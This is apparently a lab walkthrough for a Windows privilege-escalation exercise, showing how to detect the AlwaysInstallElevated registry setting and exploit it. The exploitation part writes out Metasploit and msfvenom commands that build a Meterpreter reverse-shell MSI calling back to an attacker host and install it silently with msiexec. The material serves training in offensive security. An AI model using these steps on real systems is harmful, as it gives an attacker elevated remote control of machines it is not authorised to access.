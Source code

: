 **Detection**  

Windows VM

1.Open command prompt and type: 

```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

![[Pasted image 20240130221754.png]]

2.From the output, notice that “AlwaysInstallElevated” value is 1.  
3.In command prompt type: 

```
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```

![[Pasted image 20240130222008.png]]

4.From the output, notice that “AlwaysInstallElevated” value is 1.

**Exploitation**

*Kali VM

1. Open command prompt and type: 

```
msfconsole
```

3. In Metasploit (msf > prompt) type: 

```
use multi/handler
```  

![[Pasted image 20240130223242.png]]

3. In Metasploit (msf > prompt) type: 

```
set payload windows/meterpreter/reverse_tcp
```

![[Pasted image 20240130223453.png]]

4. In Metasploit (msf > prompt) type: 

```
set lhost [Kali VM IP Address]
```  

![[Pasted image 20240130223535.png]]

5. In Metasploit (msf > prompt) type: 

```
run
```  

![[Pasted image 20240130223641.png]]

6. Open an additional command prompt and type: 

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi
```

![[Pasted image 20240130223127.png]]

7. Copy the generated file, setup.msi, to the Windows VM.  

![[Pasted image 20240130222922.png]]


*Windows VM

1.Place ‘setup.msi’ in ‘C:\Temp’.  

![[Pasted image 20240130223940.png]]


2.Open command prompt and type: 

```
msiexec /quiet /qn /i C:\Temp\setup.msi
```  

![[Pasted image 20240130224154.png]]

Enjoy your shell! :)  

![[Pasted image 20240130224233.png]]

Answer the questions below

Click 'Completed' once you have successfully elevated the machine
